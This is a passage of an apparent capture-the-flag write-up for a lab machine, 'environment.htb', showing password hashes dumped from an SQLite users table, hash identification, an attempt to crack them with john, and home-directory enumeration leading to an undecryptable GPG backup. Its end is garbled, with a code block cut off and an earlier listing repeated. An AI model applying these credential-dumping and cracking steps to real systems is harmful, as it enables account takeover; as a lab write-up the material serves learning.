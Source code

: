 ```bash
sqlite> SELECT name,email,password FROM users;
Hish|hish@environment.htb|$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
Jono|jono@environment.htb|$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
Bethany|bethany@environment.htb|$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
```

These hashes seems to be encrypted with bcrypt:

```bash
❯ hashid '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
Analyzing '$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```

I will write these hashes into a file and try to crack them with john:

```bash
❯ vi users.hashes 
hish@environment.htb:$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
jono@environment.htb:$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
bethany@environment.htb:$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
```

The hashes are not crackable as I tried it.

## GPG file 

Backup folder in hish home accessible by www-data user:

```bash
www-data@environment:/home/hish$ ls -la
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6  2025 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12  2025 .bashrc
drwxr-xr-x 4 hish hish 4096 Sep 20 01:40 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6  2025 .local
-rw-r--r-- 1 hish hish  807 Jan  6  2025 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 backup
-rw-r--r-- 1 root hish   33 Sep 19 20:02 user.txt
```

It contains a gpg encryption file:

```bash
www-data@environment:/home/hish/backup$ ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep 20 01:41 keyvault.gpg
```


But I can't decrypt it as I'm not hish and I don't have permissions to create a .gnupg directory as www-data:

```bash
www-data@environment:/home/hish/.gnupg$ gpg --decrypt keyvault.gpg
gpg: Fatal: can't create directory '/var/www/.gnupg': Permission deniedBackup folder in hish home:

```bash
www-data@environment:/home/hish$ ls -la
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12  2025 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
```